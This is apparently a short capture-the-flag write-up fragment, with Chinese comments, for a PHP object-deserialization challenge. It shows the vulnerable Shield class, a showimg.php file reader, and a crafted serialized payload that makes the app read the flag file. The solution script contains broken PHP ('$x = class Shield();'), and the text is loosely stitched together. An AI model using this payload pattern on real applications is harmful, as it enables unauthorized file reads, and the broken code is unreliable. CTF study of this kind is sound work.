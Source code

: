 ```php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
<!-- showimg.php -->
<?php
    $f = $_GET['img'];
    if (!empty($f)) {
        $f = base64_decode($f);
        if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        //stripos — 查找字符串首次出现的位置（不区分大小写）
        && stripos($f,'pctf')===FALSE) {
            readfile($f);
        } else {
            echo "File not found!";
        }
    }
?>
复制代码
#?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}
<!-- answer.php -->
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
复制代码
```
